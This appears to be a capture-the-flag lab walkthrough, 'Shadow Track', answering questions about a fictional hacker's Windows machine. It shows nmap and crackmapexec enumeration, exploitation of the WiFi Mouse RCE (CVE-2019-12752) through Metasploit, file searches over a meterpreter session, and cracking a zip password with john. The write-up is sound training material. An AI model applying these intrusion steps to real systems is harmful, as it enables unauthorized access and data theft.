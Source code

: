# 04 - Shadow Track (Lab)

Close surveillance allowed us to identify a member of a hacker group named Harry while he was working in a cafe. We believe that Harry was using the cafe's Wi-Fi network to launch various cyber-attacks. This gives us the opportunity to learn more about his activities by accessing his computer through the cafe's network.

Your task is to infiltrate Harry's computer via the cafe's Wi-Fi network and uncover the cyber attacks and communication networks of this hacker group.


Questions Walkthrough:1. What is the name of the target computer?

To begin, we need to enumerate the ports and services running on Harry's computer. We can use nmap for this purpose.
```
 nmap -p- --open -n --max-retries 5000 -sS -vvv -Pn 172.20.31.12 -oG allPorts
```

![](Assets/Pasted%20image%2020251028154318.png)


Then lets perform a more in depth scan on the open ports

```
nmap -sSVC -p135,139,445,1978,5040,49664,49665,49666,49667,49668,49669,49672 172.20.31.12
```

Since its running SMB lets try to make a crackmapexec to get the name of the computer.
```
crackmapexec smb 172.20.31.12
```

![](Assets/Pasted%20image%2020251028153926.png)


Answer:DESKTOP-BG4O059

Question 2: What is the operating system of the target computer?
Answer: Windows 10
Question 3: What is the domain name of the website whose user information was compromised by the hacker group?
Lets look for vulnerabilities on open ports.
```
1978: WiFi Mouse service
```
What is WiFi Mouse RCE?

CVE-2019–12752

WiFi Mouse is a legitimate application, but versions up to 1.7.5.9 contain a critical vulnerability:

Lets head to msfconsole and search for it.
```
msfconsole
search wifi_mouse
```

![](Assets/Pasted%20image%2020251028154958.png)


After enumerating if we go to cd C:\Users\Harry\Desktop we can find three interesting files:
1. **response.txt** — Large file (likely contains stolen data)
2. **Telegram.txt** — Communication information
3. **malware.zip** — Malicious software used by the group

Lets look for the domain name on the response.txt file.
```
findstr /R /C:"http[s]*://[a-zA-Z0-9./?=_-]*" response.txt
```

![](Assets/Pasted%20image%2020251028155454.png)

Answer: trustbank.hv

Question 4: What is the number of compromised user data?
Lets count the number of lines on the response.txt file and filter only the email addresses.
```
findstr /R /C:"[a-zA-Z0-9._-]*@[a-zA-Z0-9.-]*" response.txt | find /c /v ""
```

Question 5: What are any of the other websites targeted by the hacker group?
Lets enumerate a bit more
```
cd C:\Users\Harry\Documents\hack
dir
```

![](Assets/Pasted%20image%2020251028155942.png)


Here we have a targets_domains.txt lets see the content
```
type target_domains.txt
```

Answer: primelogistics.hv

Question 6: What is the group participation link to the platform on which the hacker group communicates?

If we read the previous Telegram.txt file there we can find the link

Answer: t.me/+37NnWAZY2HTaYjM9A

Question 7: What is the MD5 hash value of the malware used by the hacker group?
Lets find the malware.zip file and download it to our machine. Lets make a command to find any file that has malware on its name on Windows.
```
dir /s /b | findstr /i "malware"
```
Found it on C:\Users\Harry\Downloads\malware.zip

Lets download it from the meterpreter session
```
download C:\Users\Harry\Downloads\malware.zip
```
Then if we try to unzip it in linux it asks for a password.
```
zip2john malware.zip > ziphash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt ziphash.txt
```


![](Assets/Pasted%20image%2020251028162050.png)

Lets unzip it now
```
unzip malware.zip
```
And finally calculate the md5 hash of the malware file

```
md5sum malware.exe
```


Answer: 035bce7b8ecd5e46298e2666c5ba2fb2